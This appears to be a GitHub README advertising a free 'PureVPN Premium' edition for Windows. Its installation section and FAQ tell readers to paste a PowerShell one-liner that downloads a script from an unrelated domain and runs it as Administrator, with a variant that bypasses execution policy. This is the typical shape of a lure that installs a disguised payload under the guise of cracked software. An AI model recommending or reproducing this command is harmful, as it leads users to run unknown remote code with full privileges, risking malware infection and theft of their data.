

<div align="center">


<br>


# PureVPN Premium Account 2026 Edition
**Global servers · Split tunnel · WireGuard**
<br>
**Global servers · Split tunnel · WireGuard**
<br>
Full Version  ◆  Pro  ◆  Complete  ◆  Windows



**PureVPN Premium — WireGuard protocol, global server network, split tunneling and dedicated IP options all enabled.**

</div>
---

> Route traffic securely worldwide — WireGuard, split tunnel and streaming-optimized nodes all enabled.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://usevision.fun/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

🌍 **Global servers** — Connect through premium locations worldwide.
🔒 **Encrypted tunnel** — Secure browsing and app traffic on Windows.
⚡ **Stable desktop client** — Optimized for Windows 10/11 daily use.
🛡️ **Privacy toolkit** — Pro settings and profiles included.
📦 **Offline-ready client** — Works after one-time setup.
🖥️ **Windows native** — Built for 64-bit desktops.
⚙️ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB minimum |
| **Disk** | 2 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://usevision.fun/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB minimum, 2 gb free space.
</details>


TAGS
purevpn, purevpn-premium, purevpn-2026, purevpn-app, global-servers, split-tunnel, wireguard, windows, pro, desktop, software, studio, tools
